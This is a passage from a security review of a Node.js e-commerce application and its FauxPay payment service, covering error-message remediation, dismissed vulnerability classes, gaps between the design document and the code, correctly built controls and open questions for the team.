3. Return a uniform `402 declined` for *all* client-side processor failures so the 402/502 split no longer distinguishes a refused card from a token that was never issued, and pair this with the F-05 rate limiter on `/api/orders` so repeated probing is throttled regardless.
4. Emit the same `correlationId` into the F-14 audit event, so support can join a customer quoted reference to the full upstream detail without that detail ever crossing the trust boundary.

Why this closes the gap: the fixed allow-list of outcomes means no upstream string can reach an attacker, so the endpoint stops functioning as an oracle, while the correlation ID preserves the operational ability to diagnose a specific customer failed payment — the legitimate need the `detail` field was serving.

**Mappings.** OWASP Top 10 A04:2021, A05:2021, A09:2021 - OWASP API Top 10 API8:2023, API10:2023 Unsafe Consumption of APIs - ASVS v5.0 V7.4.1 (generic error messages), V7.4.2, V7.1 - CWE-209, CWE-203 (Observable Discrepancy)
**STRIDE.** Information Disclosure

---

## 6. Considered and Discarded

| Issue | Why it was discarded |
| --- | --- |
| **SQL injection in knex usage** | Every query uses knex parameter-binding APIs. The two interpolated-looking cases are safe: `catalog.js:12` and `cs.js:14` interpolate into the *bound value*, not the SQL text, so knex emits `ILIKE ?`. `req.params.id` is always passed through a `.where({ id: ... })` object. No `db.raw()`, `whereRaw` or `orderByRaw` appears anywhere in `api/src`. The unanchored `ILIKE` is reported as a data-exposure issue (F-11), not injection. |
| **XSS in the React SPA / unsanitized review bodies** | Grep across `web/src` returns no `dangerouslySetInnerHTML`, no `innerHTML` and no `eval`. Review bodies and author names render as JSX text (`WidgetDetail.jsx:187,189`), which React escapes. The related *missing mitigation* (no CSP) is reported as F-10; there is no exploitable injection sink today. |
| **Price tampering at checkout** | Correctly defended. `orders.js:28-45` ignores any client-supplied price and re-prices every line from `widgets.price_cents`, computing the total server-side; `POST /api/cart/items` accepts only `widget_id` and `quantity` (`cart.js:40`), never a price. `order_items.unit_price_cents` is written from the authoritative widget row. |
| **Quantity tampering / negative quantities** | `cart.js:42` and `cart.js:61` both require a positive integer, so negative and fractional quantities are rejected and no negative-total abuse is possible. The absence of an *upper* bound is folded into F-07 rather than reported separately. |
| **Cart-item IDOR** | Correctly defended. `cart.js:65` and `cart.js:72` scope by `{ id: req.params.itemId, cart_id: cart.id }` where the cart is resolved from `req.user.sub`, so another user item id yields 404, not a cross-tenant write. |
| **Order IDOR on the customer path** | Correctly defended. `orders.js:101` filters by `{ user_id: req.user.sub }` and `orders.js:106` by `{ id: req.params.id, user_id: req.user.sub }`. |
| **Shipping-address substitution at checkout** | Correctly defended. `orders.js:19` validates `{ id: shipping_address_id, user_id: userId }`, so goods cannot be redirected to an address the buyer does not own. |
| **Review ownership / verified-purchase bypass** | Correctly defended. `reviews.js:34-39` joins `order_items` to `orders` and requires the caller be the order owner with status `paid`; `reviews.js:41-42` plus the `unique(['user_id','widget_id'])` constraint (migration 0009 line 11) enforce one review per widget; `reviews.js:54,76` check author identity before update and delete. |
| **Mass assignment on widget update** | Correctly defended. `admin.js:34-38` uses an explicit allow-list, so `id`, `sku`, `created_by` and `created_at` cannot be overwritten. |
| **Role escalation via the registration payload** | Correctly defended. `auth.js:27` hardcodes `role: 'customer'` and ignores any client-supplied role. Escalation is still reachable via F-01, but not via this field. |
| **Missing function-level authorization on `/api/admin/*` and `/api/cs/*`** | Correctly defended. `admin.js:8` applies `router.use(requireAuth, requireRole('admin'))` and `cs.js:9` applies the CS equivalent at router level, covering every route in both files including ones added later. The client-side `RequireRole` in `App.jsx:15-20` is a UI hint only and is correctly backed by these server checks. |
| **CSRF on state-changing endpoints** | Not currently exploitable. Authentication is an `Authorization: Bearer` header read from JS (`client.js:19`); browsers do not attach it cross-site, and a wildcard ACAO cannot be combined with credentials. `cookieParser()` is mounted but no cookie is ever set or read. CSRF becomes relevant only once the F-06 refresh cookie exists, which is why the `X-Requested-With` requirement is built into that remediation. |
| **JWT alg-none / algorithm-confusion attack** | `jsonwebtoken` v9 (`api/package.json:18`) rejects `none` and refuses asymmetric/symmetric confusion by default. Algorithm pinning is still included in F-01 as hardening, but there is no exploitable path today. |
| **Stack-trace / unhandled-exception disclosure** | Correctly defended. `app.js:31-35` logs the error server-side and returns only a generic message; `asyncHandler` (`middleware/asyncHandler.js:1-5`) routes all rejected promises there, so no stack reaches the client. The narrower processor-detail passthrough is reported as F-18. |
| **Database exposed to the host** | Correctly defended. `docker-compose.yml:49-50` uses `expose: ["5432"]`, not `ports:`, so `db` has no host-published port — this part of `DESIGN.md:928` is implemented. The weak credential behind it is F-17. |
| **Migrations not completing before `api` serves traffic** | Correctly defended. `docker-compose.yml:21-22` gates `api` on `migrate: service_completed_successfully` and `db: service_healthy`, satisfying `DESIGN.md:999`. |
| **`cart_items.quantity` integer overflow** | Not exploitable beyond a 500. `POST /api/cart/items` accumulates quantity unbounded (`cart.js:52`), but the checkout stock check (`orders.js:36`) rejects any quantity exceeding stock long before an int4 overflow matters; a deliberately enormous value only produces a Postgres range error surfaced as a generic 500. The missing ceiling is noted in F-07. |
| **Non-string `body` on review update** | Minor robustness bug, not a security finding. `reviews.js:65` assigns `req.body.body` with no type check, so an object or array value causes a Postgres type error surfaced as a generic 500 — no injection, no disclosure, no state corruption. |
| **Review retained after a full refund** | Judged not a security issue. `reviews.js:36` checks `orders.status = 'paid'` at write time, so a refunded order does not confer new review rights; an existing review simply persists. This is a business-policy question for the product team (see Open Questions), not an exploitable flaw. |
| **Card-token replay from the `payments` table** | No reachable path. `payments.processor_card_token` is never returned by any endpoint — `orders.js:92`, `orders.js:106-109` and `cs.js:18-25` all return order and item rows, never the payment row. Tokens are 128-bit random (`fauxpay/src/server.js:38`) and so are not guessable. Reachable only with the database access described in F-17. |
| **Timing attack for login user-enumeration** | Marginal and subsumed. `auth.js:44` short-circuits `bcrypt.compare` when no user exists, a measurable timing difference in principle — but the endpoint already enumerates users far more directly via the `409` on register (`auth.js:22`), which F-05 addresses, and the F-05 remediation also adds the dummy-hash comparison that removes the timing signal. |
| **`GET /health` information disclosure** | Returns only a status field (`app.js:20`) — no version, no dependency status, no environment detail. No value to an attacker. |
| **`stock_quantity` exposed on the public catalog** | Intentional and expected for an e-commerce storefront (`catalog.js:13`, rendered at `Catalog.jsx:42`). It makes F-07 easier to aim, and is noted there, but is not itself a flaw. |
| **`web` container `depends_on: fauxpay`** | Only a startup-ordering artifact of the `/fauxpay` proxy. The proxy itself is the finding (F-04); the `depends_on` disappears with it. |

---

## 7. Design-vs-Implementation Gaps

Controls `DESIGN.md` promises, versus what the code actually does. Each row maps to the finding that makes the divergence exploitable; rows marked as implemented are carried forward into section 8.

| # | Design promise | As-built reality | Finding |
| --- | --- | --- | --- |
| 1 | `gateway` container is the sole public entry point (3.1, 3.3, 11.1) | No `gateway` service exists in `docker-compose.yml`; the SPA nginx is the edge | F-03 |
| 2 | Gateway terminates TLS (3.3, 11.6) | `web/nginx.conf:1` `listen 80`; no certificate anywhere; host publishes `8080:80` | F-03 |
| 3 | Gateway rate-limits all routes, most aggressively `/api/auth/*` (3.3, line 109) | No `limit_req` in nginx, no limiter middleware in Express, no limiter dependency installed | F-05 |
| 4 | Gateway validates the JWT before requests reach `api`, forwarding identity on a trusted header (3.3, line 100) | No edge validation; `api` parses the JWT itself (`middleware/auth.js:11`) | F-03 |
| 5 | `web` and `api` are not host-published (11.2, 11.7.2) | `web` is published on 8080; only `db` and `fauxpay` are correctly expose-only | F-03 |
| 6 | Payment processor is external, outside our trust boundary, not a container we operate (3.1, 11.1, line 921) | `fauxpay` is a service in our own Compose stack | F-04 |
| 7 | Raw card data goes browser to processor directly, never through our infrastructure (6, line 82, line 345) | `web/nginx.conf:12-15` proxies `/fauxpay/`; `client.js:4` posts PAN and CVV to our own origin | F-04 |
| 8 | Access token is short-lived, about 15 minutes (3.2, line 94) | `expiresIn: '12h'` (`auth.js:33,48`) | F-06 |
| 9 | Access token held in memory only, never `localStorage` (3.2, line 94) | `client.js:6,10` read and write `localStorage` | F-06 |
| 10 | Rotating opaque refresh token in an HttpOnly/Secure/SameSite=Strict cookie (3.2, line 95) | No refresh token of any kind; no `refresh_tokens` table; `cookieParser()` unused | F-06 |
| 11 | `POST /api/auth/refresh` rotates the token and detects reuse, revoking the family (3.2, 7.7.10) | Route does not exist | F-06 |
| 12 | `POST /api/auth/logout` revokes the current refresh token (8) | Route does not exist; the SPA calls it and gets 404 (`client.js:38`); `AuthContext.jsx:30-33` clears local state only | F-06 |
| 13 | Custom-header CSRF defence on cookie-authenticated endpoints (3.2, line 97) | No such check; no cookie-authenticated endpoints exist yet | F-06 |
| 14 | Session revocation via `refresh_tokens` backs every logs-out-other-sessions guarantee (3.2, lines 98, 144) | No table, no revocation; role changes also do not take effect for up to 12h | F-06, F-14 |
| 15 | Strict SPA-wide CSP, no unsafe-inline or unsafe-eval (3.2, lines 99, 900) | No `Content-Security-Policy` header in `nginx.conf` or the API; no `helmet` | F-10 |
| 16 | Account lockout after N consecutive failures, with cooldown (5, 7.1c, line 894) | No `failed_login_attempts`, no `locked_until` columns; no lockout logic in `auth.js` | F-05 |
| 17 | Forgot/reset password with hashed, single-use, time-limited tokens (7.1a, 5, line 892) | No routes, no `password_reset_tokens` table | F-09 |
| 18 | Change password with current-password re-verification (7.1b, line 893) | No route | F-09 |
| 19 | Forgot-password returns a uniform response to prevent enumeration (7.1a, line 363) | Flow absent; `register` actively enumerates via `409` (`auth.js:22`) | F-05, F-13 |
| 20 | Exchange requires the return to be `received` before completion (7.6) | `cs.js:93-114` permits `requested` straight to `completed` | F-08 |
| 21 | Exchange settles the price difference via refund or additional charge (7.6, line 420) | No settlement logic in either exchange handler | F-08 |
| 22 | Exchange specifies returned items from *that* order (7.6, line 418) | `cs.js:72-87` accepts any `returned_widget_id` with no order-membership check | F-08 |
| 23 | Refunds and exchanges record actor, timestamp and reason (9.9, line 902) | **Implemented** — `refunds.issued_by`, `exchanges.processed_by` | — |
| 24 | Role-based authZ enforced server-side on every endpoint (4, lines 127, 891) | **Implemented** — router-level `requireRole` on `admin.js:8` and `cs.js:9` | — |
| 25 | Cart re-priced at checkout from `widgets.price_cents` (5, line 140, 7.3.4) | **Implemented** — `orders.js:28-45` | — |
| 26 | Reviews: verified purchase, one per (user, widget), author-only edit (5, 7.2a) | **Implemented** — `reviews.js:34-42,54,76` plus the unique constraint | — |
| 27 | Parameterized SQL, no string concatenation (10) | **Implemented** — knex bindings throughout; no `db.raw` in `api/src` | — |
| 28 | No table stores PAN, CVV or expiry (5, line 145) | **Implemented** — `payments` holds only the token, `card_last4`, `card_brand` | — |
| 29 | Containers run as non-root (11.5, 11.7.4) | **Partial** — `api` and `fauxpay` drop to `app`; `web` (nginx) runs as root | F-16 |
| 30 | Multi-stage Dockerfiles, production-only deps in the runtime stage (11.5) | **Implemented** — all three images are multi-stage, with `--omit=dev` on api and fauxpay | — |
| 31 | `.dockerignore` excludes `node_modules` and `.env` (11.5, line 947) | **Partial** — `api/` and `web/` correct; `fauxpay/.dockerignore` omits `.env` | F-16 |
| 32 | Secrets injected at runtime, none baked in; Docker secrets for the DB password (11.3, 11.6, 11.7.3) | Inline env with committed guessable defaults (`docker-compose.yml:39-41`); `JWT_SECRET` and `FAUXPAY_API_KEY` published in `.env.example` | F-01, F-04, F-17 |
| 33 | `.env` excluded from version control, `.env.example` committed (11.3) | **Implemented** — `.gitignore:2` lists `.env`; `git ls-files` confirms only `.env.example` is tracked. The defect is the *content* of `.env.example`, not its presence | F-01, F-04 |
| 34 | `db` not published to the host; only `api` reaches it (11.2, line 928) | **Partial** — expose-only is correct, but a single flat network lets `web` and `fauxpay` reach it too | F-17 |
| 35 | `migrate` completes before `api` accepts traffic (11.4, 11.7.5) | **Implemented** — `service_completed_successfully` condition | — |
| 36 | One origin for SPA and API so SameSite is meaningful; CORS avoided (11.2, line 930) | Wildcard `cors()` applied globally (`app.js:16`) | F-15 |
| 37 | Stock decremented only on charge success; cart preserved on failure (7.3.5-6, line 401) | Decremented before the charge and never restored (`orders.js:62,72`) | F-07 |
| 38 | Password hashing with bcrypt or argon2 (3, 10) | **Implemented** — bcryptjs at cost 10 (`auth.js:25`); cost 12 recommended in F-09 | — |
| 39 | Transactional email provider for reset links (3) | No email client module exists anywhere in `api/src` | F-09, F-13 |
| 40 | Guest carts either supported, or login required before cart use (5, line 139) | **Implemented** — `cart.js:8` applies `requireAuth`, so login is required | — |
| 41 | Admin and CS accounts are "provisioned by an existing Admin" (4, line 129) | **Circular and unimplementable.** `auth.js:27` hardcodes `role: 'customer'`, so registration can never mint staff (correct). The only role-granting route is `PATCH /api/admin/users/:id/role` (`admin.js:70`), itself behind `requireRole('admin')` (`admin.js:8`). No CLI, bootstrap script or break-glass path exists anywhere in `api/src`. A fresh production deployment therefore has **zero** admins and the entire Admin/CS role model is unreachable — leaving the dev seed as the de facto only source of an admin | Open question 6 |

**Summary:** of the 41 design commitments traced, **14 are fully implemented**, **4 are partially implemented**, and **23 are absent or contradicted**. The absences cluster in three areas: the entire gateway tier (rows 1-5), the entire session/token security model (rows 8-14), and the credential-recovery flows (rows 16-19). Row 41 is a design defect rather than an implementation shortfall: the provisioning requirement as written cannot be satisfied by any implementation, so it needs a design decision before it can be built (open question 6).

---

## 8. Correctly Implemented Controls

Balance matters. The following design controls are genuinely present and correct in the code, and should not be disturbed by the remediations above.

1. **Server-side re-pricing at checkout** — `api/src/routes/orders.js:28-45`. Line prices come only from `widgets.price_cents`; the client cannot supply a price at any point in the cart or checkout flow. This closes the single most common e-commerce logic flaw.
2. **Function-level authorization at the router level** — `api/src/routes/admin.js:8`, `api/src/routes/cs.js:9`. `router.use(requireAuth, requireRole(...))` covers every current *and future* route in those files, which is materially safer than per-handler decoration.
3. **Object-level authorization on every customer-owned resource** — cart items (`cart.js:65,72`), orders (`orders.js:101,106`), addresses (`users.js:16,26`), the shipping address at checkout (`orders.js:19`), reviews (`reviews.js:54,76`). Every one re-verifies ownership against `req.user.sub` rather than trusting the supplied identifier.
4. **Verified-purchase review gating with a uniqueness invariant** — `reviews.js:34-42` plus `unique(['user_id','widget_id'])` in `migrations/20260101000009_create_reviews.js:11`. Enforced at write time and backed by a database constraint, exactly as `DESIGN.md:146` requires.
5. **Mass-assignment allow-list on widget updates** — `admin.js:34-38`. The explicit key list prevents overwriting `id`, `sku`, `created_by` and `created_at`.
6. **Role hardcoded at registration** — `auth.js:27` sets `role: 'customer'`, so the registration payload cannot mint staff accounts.
7. **Parameterized SQL throughout** — knex value bindings everywhere; no `db.raw`, `whereRaw` or `orderByRaw` anywhere in `api/src`. The `ILIKE` filters bind their patterns as parameters.
8. **No cardholder data at rest** — `migrations/20260101000007_create_payments.js` stores only `processor_card_token`, `card_last4` and `card_brand`; there is no PAN, CVV or expiry column anywhere in the schema.
9. **Generic error responses with server-side logging** — `app.js:31-35` plus `middleware/asyncHandler.js`. No stack trace or internal detail reaches the client on an unhandled exception.
10. **Bcrypt password hashing** — `auth.js:25`, `seeds/01_initial_data.js:16`. Correct algorithm choice; only the work factor (10 to 12) is worth raising.
11. **Audit fields on financial staff actions** — `refunds.issued_by` (`cs.js:53`), `exchanges.processed_by` (`cs.js:78`), plus `widgets.created_by` / `updated_by` (`admin.js:25-26,44`). Satisfies `DESIGN.md:902` for refunds and exchanges specifically.
12. **Refund ceiling logic exists** — `cs.js:38-42` does check cumulative refunds against the order total. The concept is right; only its atomicity is wrong (F-12).
13. **Checkout order, item and stock writes are transactional** — `orders.js:47-66` wraps them in `db.transaction`, preventing partially created orders.
14. **Immutable historical prices** — `order_items.unit_price_cents` is written once at purchase (`orders.js:43,59`) and never touched by `PATCH /api/admin/widgets/:id`, so catalog price changes cannot retroactively alter past orders (`DESIGN.md:901`).
15. **Soft delete for widgets** — `admin.js:52-56` sets `is_active: false` rather than deleting, and all customer-facing reads filter on `is_active: true` (`catalog.js:10,18`, `cart.js:46`, `orders.js:30`).
16. **`db` and `fauxpay` are not host-published** — `docker-compose.yml:49-50,56-57` use `expose`, not `ports`.
17. **Migration ordering enforced** — `docker-compose.yml:21-22` gates `api` on `migrate: service_completed_successfully` and `db: service_healthy` (`DESIGN.md:999`).
18. **Multi-stage builds with production-only dependencies** — all three Dockerfiles; `api` and `fauxpay` use `--omit=dev` and drop to a non-root `app` user (`api/Dockerfile:9,13`, `fauxpay/Dockerfile:9,13`).
19. **`.env` is genuinely untracked** — `.gitignore:2`; `git ls-files` confirms only `.env.example` is committed. The problem is that file contents, not a leaked `.env`.
20. **Fail-fast on missing `JWT_SECRET`** — `server.js:3-6` refuses to start without it. The gap is that it does not also reject the known default (F-01).
21. **Foreign keys and cascade rules** — every relationship in `migrations/` declares `references().inTable()` with an appropriate `onDelete`, preventing orphaned carts, addresses and order items.
22. **React default output escaping is relied on correctly** — no `dangerouslySetInnerHTML` or `innerHTML` anywhere in `web/src`, so user-supplied review bodies and display names cannot execute script.

---

## 9. Open Questions for the Development / Architecture Team

1. **Is FauxPay a permanent component or a local-development double?** `DESIGN.md:903` frames it as a test double, but `docker-compose.yml:52-57` ships it as a first-class service and `web/nginx.conf:12-15` proxies it in the production image. Which is intended for deployment, and what is the real processor?
2. **Was the `gateway` container descoped deliberately or overlooked?** Four separate controls (TLS, rate limiting, edge authN, non-published `web`/`api`) depend on it existing.
3. **Where is TLS expected to terminate in the target environment** — an ingress or load balancer outside Compose, or the gateway itself? This determines whether `Secure` cookies (F-06) can be set at all.
4. **Which transactional email provider is approved?** No email client module exists, and both F-09 and F-13 block on it.
5. **What are the intended lockout parameters** — threshold and cooldown? `DESIGN.md:380` offers 5 attempts and 15 minutes as examples only.
6. **How are Admin and Customer Service accounts actually created, and how is the first one created?** This is the report's most consequential unanswered design question, and it has four parts:
   - **Bootstrap (the circular dependency).** `DESIGN.md:129` says staff accounts are "provisioned by an existing Admin", but nothing provisions the *first* Admin. `auth.js:27` hardcodes `role: 'customer'`; the only role-granting route (`admin.js:70`) sits behind `requireRole('admin')` (`admin.js:8`); no CLI or bootstrap script exists. A fresh production deployment has zero admins, so `/api/admin/*` and `/api/cs/*` are unreachable and the catalog can never be populated. Options: a one-shot break-glass bootstrap command that provisions a single admin from a deployment-time secret and then refuses to run again; promotion of a designated first account via an out-of-band migration gated on an empty `users` table; or provisioning from an external IdP (below). Whichever is chosen, it should pair with a forced-rotation gate (`must_change_password`) so the bootstrap credential cannot become a standing one.
   - **Ongoing joiner/mover/leaver lifecycle.** There is no deprovisioning path at all — no route demotes, disables, or locks a staff account, and `PATCH /api/admin/users/:id/role` can only overwrite a role in place, with no history (F-14). How is access revoked when a CS agent leaves, and who reviews entitlements periodically? Note this compounds F-06: with no `refresh_tokens` table and a 12-hour JWT, even a demoted staff member keeps their existing privileges until the token expires on its own, because the role is read from the token claim rather than re-read from the database.
   - **Identity source.** Should staff authenticate against `users` at all, or via an external IdP (SSO/OIDC) with roles derived from directory-group membership? The latter removes staff password storage from this system entirely and inherits central deprovisioning, which resolves the lifecycle question above rather than re-implementing it.
   - **Step-up assurance.** Nothing in the design addresses MFA for the roles that can move money, and staff currently use the same unthrottled self-service login as customers (F-05). Should staff sit behind a separate admin origin, require MFA, or require re-authentication for high-value refunds (F-08, F-12)?

   Until this is settled, the development seed (`docker compose run --rm api npm run seed`) is the only mechanism that yields an admin — which is precisely the pressure that gets a test fixture, and its `README.md`-published password, run against a real environment. See gap row 41 and the retired F-02 note in section 4.
7. **What is the approved refund authorisation policy?** Is a single CS agent action sufficient at any amount, or is maker-checker required above a threshold (F-08, F-12)?
8. **Should customers be able to initiate exchanges themselves?** `DESIGN.md:418` says "Customer (or CS on their behalf)", but the only route is `POST /api/cs/orders/:id/exchanges` behind `requireRole('customer_service')`, so the customer-initiated path in 7.6 is unreachable.
9. **Do exchanges move inventory?** Neither handler touches `widgets.stock_quantity`, so replacement shipments are invisible to stock accounting.
10. **Should a refunded purchase retain its review?** `reviews.js:36` gates on status `paid` at write time only; a later full refund leaves the review standing.
11. **What is the data-retention policy for `addresses`, `orders` and `payments`?** No deletion, anonymisation or account-closure path exists anywhere in the API — relevant to GDPR and CCPA erasure obligations.
12. **Is there an expected consumer for `GET /api/widgets/:id`?** The route exists (`catalog.js:17`) but `WidgetDetail.jsx:24-29` fetches the whole list and filters client-side, which will not scale and bypasses the single-widget path.
13. **What observability stack should the F-14 audit events ship to?** The current API has no logger beyond `console.error`.
14. **Are guest carts required?** `cart.js:8` requires auth, one of the two options `DESIGN.md:139` permits — confirming this closes the ambiguity.
15. **What is the expected concurrency or replica count for `api`?** F-12 severity depends on it: at one replica the processor own guard masks the race, at two or more it does not.

---

## Appendix — Methodology and Coverage

Every file under `Node JS/` was read in full except `node_modules` and `package-lock.json`:

- **API** — `api/src/app.js`, `server.js`, `middleware/auth.js`, `middleware/asyncHandler.js`, `db/connection.js`, `db/knexfile.js`, all 9 migrations, `db/seeds/01_initial_data.js`, `services/fauxpayClient.js`, and all 8 route modules (`auth`, `catalog`, `reviews`, `cart`, `orders`, `admin`, `cs`, `users`)
- **Web** — `web/src/main.jsx`, `App.jsx`, `AuthContext.jsx`, `api/client.js`, and all 9 pages (`Catalog`, `WidgetDetail`, `Cart`, `Checkout`, `Orders`, `Login`, `Register`, `Admin`, `CustomerService`), plus `index.html`, `vite.config.js`, `nginx.conf`, `package.json`, `Dockerfile`, `.dockerignore`
- **FauxPay** — `fauxpay/src/server.js`, `package.json`, `Dockerfile`, `.dockerignore`
- **Infrastructure** — `docker-compose.yml`, `.env`, `.env.example`, `.gitignore`, `README.md`, and `git ls-files` to confirm which env files are tracked

Pre-existing threat-model and scan artifacts in the repository were deliberately not read, so this pass is derived only from `DESIGN.md` and the source code.

*End of report.*
